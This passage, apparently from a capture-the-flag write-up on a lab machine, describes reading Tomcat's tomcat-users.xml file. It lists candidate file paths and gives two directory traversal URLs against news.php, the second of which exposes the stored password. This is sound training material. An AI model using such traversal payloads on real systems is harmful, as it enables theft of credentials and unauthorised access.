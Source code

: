 In this page there are a couple of useful links. It gives us links to the manager webapp and the host-manager webapp. After some research we know that tomcat users are stored in the following directory file etc/tomcat9/tomcat-users.xml or by locate tomcat-users.xml.

/etc/tomcat9/tomcat-users.xml
/usr/share/tomcat9/etc/tomcat-users.xml
/var/lib/ucf/cache/:etc:tomcat9:tomcat-users.xml

After that we can use our file inclusion by 

view-source: http://10.10.10.194/news.php?file=../../../../etc/tomcat9/tomcat-users.xml 

But nothing shows up. I got to know that configuration files are saved in usr/share. Searching more i tried the URL 

view-source: http://10.10.10.194/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-users.xml

<a href="/images/projects/minor/tomcat-password.png" target="_blank" rel="some text">
  <img width="80%" src="/images/projects/minor/tomcat-password.png" alt="webpage"/>
</a>
